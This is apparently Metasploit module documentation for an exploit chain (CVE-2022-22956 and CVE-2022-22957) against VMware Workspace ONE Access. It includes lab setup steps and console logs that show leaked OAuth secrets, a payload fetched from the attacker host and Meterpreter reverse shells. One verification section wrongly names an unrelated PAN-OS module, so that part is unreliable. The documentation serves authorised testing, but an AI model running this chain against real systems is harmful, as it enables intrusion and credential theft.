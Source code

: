 ## Vulnerable Application

This module combines two vulnerabilities in order achieve remote code execution in the context of the `horizon` user.
The first vulnerability CVE-2022-22956 is an authentication bypass in OAuth2TokenResourceController ACS which allows
a remote, unauthenticated attacker to bypass the authentication mechanism and execute any operation. The second
vulnerability CVE-2022-22957 is a JDBC injection RCE specifically in the DBConnectionCheckController class's dbCheck 
method which allows an attacker to deserialize arbitrary Java objects which can allow remote code execution.

CVE-2022-22956 & CVE-2022-22957:

| Vulnerable Application  | Vulnerable version  |
|---|---|
| VMware Workspace ONE Access (Access)   |  21.08.0.1, 21.08.0.0, 20.10.0.1, 20.10.0.0  |
| VMware Identity Manager (vIDM)  |  3.3.6, 3.3.5, 3.3.4, 3.3.3  |
| VMware vRealize Automation (vRA)  |  8.x, 7.6  |
| VMware Cloud Foundation | 4.x | 
| vRealize Suite Lifecycle Manager | 8.x |

### Setup

In order to download a vulnerable application you do need VMware Customer Connect credentials. Navigate to
[Download VMware Workspace ONE Access (VIDM)](https://customerconnect.vmware.com/downloads/info/slug/desktop_end_user_computing/vmware_workspace_one_access_vidm/20_10).
to download the OVA file.
During VM Configuration within VMware Fusion, in Addition Settings input the following:

#### Application:

Timezone: (timezone of your choice)

Join the VMware Custom Experience Improvement Program: (deselect)

#### Networking Properties: (note the following may depend on your network configuration)

Host Name (FQDN): access01.corp.local

Default Gateway: 192.168.123.1

Domain Name: (blank)

Domain Search Path: (blank)

DNS: 192.168.123.1

IP Address: 192.168.123.16
Network: 255.255.255.0

Add the following line to your `/etc/hosts` file:
`192.168.123.16 access.test.local`

Be sure to change the network adapter of the VM to the network adapter that corresponds to the subnet of the static IP address you assigned above.

#### GUI Setup

Once running navigate to https://access.test.local:8443/cfg/setup
in order to complete the following setup requirements:

Set Passwords
- Appliance Administrator Account
- Appliance Root Account
- Remote User Account

Select Database
- Database Type: Internal Database


## Verification Steps

1. Start msfconsole
1. Do: `use exploit/linux/http/panos_auth_rce`
1. Set the `RHOST`, `USERNAME`, and `PASSWORD` options
1. Run the module
1. Receive a Meterpreter session as the `root` user.

## Verification Steps

1. Start msfconsole
1. Do: `use linux/http/vmware_workspace_one_access_vmsa_2022_0011_chain`
1. Set the `RHOST`, `LHOST` and `TARGET` options
1. Run the module
1. Receive a Meterpreter session as the `horizon` user.

## Scenarios
### VMware Identity Manager 21.08.0.1-19010796
```
msf6 exploit(linux/http/vmware_workspace_one_access_vmsa_2022_0011_chain) > set rhosts 192.168.123.16
rhosts => 192.168.123.16
msf6 exploit(linux/http/vmware_workspace_one_access_vmsa_2022_0011_chain) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(linux/http/vmware_workspace_one_access_vmsa_2022_0011_chain) > run

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Leaked client_id: acs
[+] Leaked client_secret: Oh2CB8n8PSrBER3NwXs41AaY3D49G7mt
[+] The target is vulnerable. Successfully by-passed authentication by exploiting CVE-2022-22956
[*] Using URL: http://192.168.123.1:8080/ONgtre.xml
[*] Sending stage (24772 bytes) to 192.168.123.16
[+] Now background this session with "bg" and then run "resource run_cve-2022-22960_lpe.rc" to get a root shell
[*] Meterpreter session 1 opened (192.168.123.1:4444 -> 192.168.123.16:53750) at 2023-04-07 10:28:46 -0400
[*] Server stopped.

meterpreter > getuid
Server username: horizon
meterpreter > sysinfo
Computer        : access01.corp.local
OS              : Linux 4.19.217-1.ph3 #1-photon SMP Thu Dec 2 02:29:27 UTC 2021
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.123.16 - Meterpreter session 1 closed.  Reason: Died
msf6 exploit(linux/http/vmware_workspace_one_access_vmsa_2022_0011_chain) > set target 1
target => 1
msf6 exploit(linux/http/vmware_workspace_one_access_vmsa_2022_0011_chain) > run

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Leaked client_id: Service__OAuth2Client
[+] Leaked client_secret: 869zxHSe5G7m7KAUSFm4iw3ByZOTdLRc
[+] The target is vulnerable. Successfully by-passed authentication by exploiting CVE-2022-22956
[*] Using URL: http://192.168.123.1:8080/mQUV.xml
[*] Using URL: http://192.168.123.1:8080/JlLraNNZdU
[*] Sending stage (3045348 bytes) to 192.168.123.16
[+] Now background this session with "bg" and then run "resource run_cve-2022-22960_lpe.rc" to get a root shell
[*] Meterpreter session 2 opened (192.168.123.1:4444 -> 192.168.123.16:53818) at 2023-04-07 10:29:26 -0400
[*] Command Stager progress - 100.00% done (116/116 bytes)

meterpreter > getuid
Server username: horizon
meterpreter > sysinfo
Computer     : access01.corp.local
OS           : VMware Photon OS 3.0 (Linux 4.19.217-1.ph3)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux

```
